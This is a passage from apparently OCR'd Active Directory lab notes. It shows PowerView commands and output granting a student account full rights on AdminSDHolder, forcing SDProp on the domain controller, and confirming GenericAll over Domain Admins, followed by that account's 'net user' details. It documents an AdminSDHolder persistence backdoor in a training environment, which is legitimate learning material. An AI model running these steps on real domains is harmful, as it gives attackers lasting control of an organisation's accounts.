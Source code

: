 ```
VERBOSE: Get-DomainSearcher search string: LDAP://CN=AdminSDHolder,CN=System,DC=dollarcorp,DC=moneycorp,DC=local
VERBOSE: Get-DomainSearcher search string: LDAP://DC=dollarcorp,DC=moneycorp,DC=local
VERBOSE: Granting principal S-1-5-21-1874506631-3219952063-538504511-45139 'All' on
CN=AdminSDHolder,CN=System,DC=dollarcorp,DC=moneycorp,DC=local
VERBOSE: Granting principal S-1-5-21-1874506631-3219952063-538504511-45139 '00000000-0000-0000-0000-000000000000'
rights on CN=AdminSDHolder,CN=System,DC=dollarcorp,DC=moneycorp,DC=local

PS C:\Windows\system32> $sess = New-PSSession -ComputerName dcorp-dc.dollarcorp.moneycorp.local
PS C:\Windows\system32> Invoke-Command -FilePath C:\AD\Tools\Invoke-SDPropagator.ps1 -Session $sess
PS C:\Windows\system32> Enter-PSSession $sess

[dcorp-dc.dollarcorp.moneycorp.local]: PS C:\Users\svcadmin\Documents> Invoke-SDPropagator -showProgress -timeoutMinutes 1
[dcorp-dc.dollarcorp.moneycorp.local]: PS C:\Users\svcadmin\Documents> exit

PS C:\Windows\system32> Get-ObjectAcl -SamAccountName 'Domain Admins' -ResolveGUIDs | ?{$_.IdentityReference -match 'stu
dent503'}

InheritedObjectType   : All
ObjectDN              : CN=Domain Admins,CN=Users,DC=dollarcorp,DC=moneycorp,DC=local
ObjectType            : All
IdentityReference     : dcorp\student503
IsInherited           : False
ActiveDirectoryRights : GenericAll
PropagationFlags      : None
ObjectFlags           : None
InheritanceFlags      : None
InheritanceType       : None
AccessControlType     : Allow
ObjectSID             : S-1-5-21-1874506631-3219952063-538504511-512
```

* PowerShell as regular user account:

```
PS C:\Windows\system32> net user student503 /domain
The request will be processed at a domain controller for domain dollarcorp.moneycorp.local.

User name                    student503
Full Name                    student503
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            12/20/2020 10:35:33 PM
Password expires             Never
Password changeable          12/21/2020 10:35:33 PM
Password required            Yes
User may change password     No

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   1/26/2021 7:36:27 AM

Logon hours allowed          All

Local Group Memberships
```